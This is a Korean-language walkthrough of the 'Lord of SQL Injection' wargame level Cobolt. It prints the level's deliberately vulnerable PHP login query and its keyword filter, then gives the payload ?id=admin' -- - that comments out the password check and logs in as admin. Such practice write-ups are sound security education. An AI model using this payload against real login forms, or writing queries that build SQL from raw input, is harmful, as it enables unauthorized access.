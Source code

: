 # Lord of SQL Injection No.2 - Cobolt
## 문제 출제 의도
1. SQL Injection을 통해 원하는 값의 SELECT 가능 여부를 확인. 
## 소스 코드 분석
+ 소스 코드  
Cobolt의 소스코드는 다음과 같다.
  ~~~
  <?php
    include "./config.php"; 
    login_chk();
    dbconnect();
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id'] == 'admin') solve("cobolt");
    elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
    highlight_file(__FILE__); 
  ?>
  ~~~
+ 소스 코드 분석
  - 금지 문자, 문자열
    - congig.php라는 분리된 파일을 외부에서 불러와 적용시킨다.
    - login_chk(); 로그인 여부를 확인하는 함수라고 추정할 수 있다.
    - dbconnect();라는 함수는 데이터베이스와 연동하는 함수라고 추정 가능하다.
    ~~~
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    ~~~
    - prob, . , ( , ) 이 받은 id 값에 있으면 No Hack ~_~이 출력된다.
    - prob, . , ( , ) 이 받은 pw 값에 있으면 No Hack ~_~이 출력된다.
    ~~~
     $result = @mysql_fetch_array(mysql_query($query));
    ~~~
    - mysql_fetch_array 인출된 값을 연관배열/숫자형 인덱스 로 저장한다.
    ~~~
    if($result['id'] == 'admin') solve("cobolt");
    elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
    ~~~
    - 만약 입력 받은 아이 값이 admin이면 solve("cobolt")를 출력하고 그렇지 않다면 You are not admin을 출력한다.
## 문제 해결
  + 풀이 방법 <hr>  
  **Get**방식으로 값을 입력받기 때문에 URL 다음에 다음과 같이 쿼리 스트링을 추가하면 된다. 
    ~~~
    ?id=admin' -- -
    ~~~
    그러면 결과적으로 쿼리는 
    ~~~
    select id from prob_cobolt where id='admin'-- -' and pw=md5('')
    ~~~
    이 됨으로 $result['id']에 'admin'이 들어가 문제가 해결된다.